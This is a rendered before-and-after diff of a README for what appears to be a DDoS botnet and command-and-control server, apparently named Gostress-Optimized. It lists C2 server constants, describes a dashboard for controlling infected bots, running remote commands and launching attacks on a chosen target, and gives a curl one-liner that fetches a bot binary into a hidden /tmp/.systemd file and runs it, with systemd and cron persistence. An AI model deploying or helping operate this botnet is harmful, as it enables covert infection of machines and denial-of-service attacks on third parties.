

Before and after one commit to 1Birdo/Gostress-Optimized, a Markdown page: README.md, the part around the change printed below. Shown: that part at 84% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -88,21 +86,19 @@ The server can be configured by modifying the constants in `main.go`:
 ```go
 const (
-    USERS_FILE          = "users.json"         // User database file
-    BOT_SERVER_IP       = "0.0.0.0"            // Bot connection interface
-    BOT_SERVER_PORT     = "7003"               // Bot connection port
-    WEB_SERVER_IP       = "0.0.0.0"            // Web interface interface
-    WEB_SERVER_PORT     = "443"                // Web interface port
-    CERT_FILE           = "server.crt"         // SSL certificate
-    KEY_FILE            = "server.key"         // SSL private key
+    USERS_FILE      = "users.json"
+    BOT_SERVER_IP   = "0.0.0.0"
+    BOT_SERVER_PORT = "7003"
+    WEB_SERVER_IP   = "0.0.0.0"
+    WEB_SERVER_PORT = "443"
+    CERT_FILE       = "server.crt"
+    KEY_FILE        = "server.key"
 )
 ```
 
-### Bot Configuration
-Modify the C2 address in `bot.go`:
-
+### Bot Settings (`bot.go`)
 ```go
 const (
-    C2Address = "your.server.ip:7003" // Change to your server's IP/domain
+    C2Address = "your.server.ip:7003"
 )
 ```
 
@@ -110,54 +106,35 @@ const (
 
 ## Usage
 
-### Accessing the Web Interface
-Navigate to `https://your-server-ip` in your browser
+### Web Dashboard
+- Visit: `https://your-server-ip`
+- Default Login:
+  - **Username**: `root`
+  - **Password**: *(auto-generated, shown on first run)*
 
-**Login with the default credentials:**
-- **Username:** `root`
-- **Password:** *(generated on first run, check console output)*
+### Manage Bots
+- View all connected bots and their statuses
+- Access detailed hardware/resource reports
+- Execute remote commands
 
-### Managing Bots
-- The dashboard shows all connected bots
-- View bot details by clicking on a bot in the list
-- Monitor bot status (active/inactive) via the status indicator
+### Launch Attacks
+1. Select a method
+2. Enter target details
+3. Define duration
+4. Click **"Initiate Attack Sequence"**
 
-### Launching Attacks
-- Select an attack method from the dropdown
-- Enter the target IP/hostname
-- Specify the target port
-- Set the duration (in seconds)
-- Click **"Initiate Attack Sequence"**
-
-### User Management
-Admin/Owner users can:
-- Create new users
-- Delete existing users
-- Modify user access levels
+### Manage Users
+- Create, delete, or modify users (Admin role only)
 
 ---
 
-## Security Considerations
+## Deployment Options
 
-⚠️ **Important Security Notes:**
-- Change the default root password immediately after first login
-- Use strong, complex passwords for all user accounts
-- Restrict access to the web interface (firewall rules, VPN, etc.)
-- Regularly monitor and audit user activity
-- Keep the server software updated
-
----
-
-## Bot Deployment
-
-### Linux Deployment
-
+### Linux Bot Deployment
 ```bash
-# Download and execute
 curl http://your-server-ip/bot -o /tmp/.systemd && chmod +x /tmp/.systemd && /tmp/.systemd
 ```
 
 ### Persistence Methods
-The bot includes several persistence mechanisms:
 - Systemd service
 - Cron job
````
Also changed, not shown: other parts of README.md (+56 -49 lines).
